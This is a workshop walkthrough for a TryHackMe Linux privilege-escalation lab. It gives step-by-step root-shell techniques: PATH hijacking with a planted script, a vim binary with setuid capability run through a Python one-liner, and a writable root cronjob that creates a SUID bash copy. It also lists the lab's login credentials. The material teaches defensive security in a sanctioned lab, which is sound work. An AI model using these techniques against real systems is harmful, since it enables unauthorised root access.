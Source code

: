 # HackerFrogs AfterSchool Network Hacking Session 10
## Session Topic: Privilege Escalation Pt 2 /w TryHackMe
# Challenge 1: TryHackMe Linux Privilege Escalation
## TryHackMe Link
https://tryhackme.com/room/linprivesc
### YouTube Walkthrough Link
https://youtu.be/WjAynRexjWE?t=1066
### Method of Solve
* Step 1: Click on the Task 10 header in the TryHackMe page, then click on the green `Start Machine` button
* Steo 2: At the top of the TryHackMe page, click on the `Start AttackBox` button
* Step 3: wait 2 minutes for the machines to finish loading
* Step 4: take note of the IP address under the red `Target Machine Information` header at the top of the TryHackMe webpage. In later parts of the workshop, we will refer to this IP address as `<IP_address>`
* Step 5: In the AttackBox, click on the terminal shortcut button located at the top of the desktop (beside the orange Firefox shortcut button)
* Step 6: In the AttackBox terminal, use the following SSH command to connect to the target machine (remember to sub in the IP address from Step 4 in the place of <IP_Address>)
```
ssh karen@<IP_address>
```
When prompted, use `Password1` as the password
* Step 7: Use the following command to move into the `murdoch` user's home directory:
```
cd /home/murdoch
```
## Part A: Privilege Escalation via PATH Hijacking
We will use the PATH hijacking to abuse a service running with elevated privileges
* Step 1: In the terminal use the following command to see the contents of the root-owned `test` file
```
file test
```
This tells us that the file is an executable binary
* Step 2: Use the following command to run the binary
```
./test
```
Note that the binary is looking for a `thm` binary. Let's check the PATH variable for the terminal
* Step 3: Use the following command to look at the PATH variable
```
echo $PATH
```
These are all standard PATH directories. If we can add a writable directory to the path, we can hijack the `test` binary's dependancy on the `thm` binary by writing our own `thm` binary
* Step 4: Use the following command to add the `/home/murdoch` directory to the system PATH
```
export PATH=/home/murdoch:$PATH
```
Now when any command is run in the system, it will look for binaries in the /home/murdoch directory first
* Step 5: Use the following command start the `nano` text editor to create a malicious `thm` file
```
#!/bin/bash
bash -p
```
This Bash script will start a Bash shell, and if it's opened with the `test` binary (owned by root)
* Step 5: Save the file by using the `ctrl+x` keyboard shortcut, then the `y` key, then the `enter` key
* Step 6: Run the `test` binary again to open a root-level bash shell
```
./test
```
* Step 7: In the TryHackMe page, go to the top of the page, then shut down the target machine by clicking on the `Terminate`, then `Terminate Machine` button below the red `Target Machine Information` header
## Part B: Privilege Escalation via SUID Binaries
In this section, we'll be doing privilege escalation attacks via Linux Capabilities
* Step 1: In the TryHackMe webpage, open the Task 8 header, then click on the `Start Machine` button
* Step 2: After the terminal finishes initializing, use the following command to return a list of binaries with additional capabilities:
```
getcap -r / 2>/dev/null
```
There's an unusual binary with capabilities in the `/home/karen` directory, the `vim` binary
* Step 3: Use the following command to open a shell using the `vim` binary
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-c", "reset; exec bash")'
```
We were able to open a root shell with the `vim` binary because it was compiled with Python support and because it had the `cap_setuid` capability, which lets it run in the context of any user
* Step 4: In the TryHackMe page, go to the top of the page, then shut down the target machine by clicking on the `Terminate`, then `Terminate Machine` button below the red `Target Machine Information` header
## Part C: Privilege Escalation via Cronjob Abuse
In this section, we'll be doing privilege esclation attacks through abusing Linux cronjobs
* Step 1: In the TryHackMe webpage, open the Task 9 header, then click on the `Start Machine` button
* Step 2: After the machine initializes, use the following command to see the scheduled cronjobs
```
cat /etc/crontab
```
We see that there is a script in our user's home directory being run as cronjob every minute
* Step 3: Take a look at the file permissions of the script file
```
ls -la
```
The `backup.sh` script is being run as the root user, but our user owns this file, so we can write whatever commands we want to it
* Step 4: Use the following commands to make the `backup.sh` file writable, then startup the `nano` text editor to modify it:
```
chmod +w backup.sh
nano backup.sh
``` 
* Step 5: Replace the contents of the script file with the following code:
```
#!/bin/bash
cp /bin/bash /home/karen/rootbash
chmod u+s /home/karen/rootbash
```
This creates a copy of the bash shell in the user's home directory, called `rootbash`, then set the binary to a SUID binary, which always runs in the conext of its owner, which is `root`
* Step 6: After a minute, use the following command to use the `rootbash` SUID binary to open a root-level shell
```
./rootbash -p
```
We use the `-p` flag to preserve the privileges from the SUID
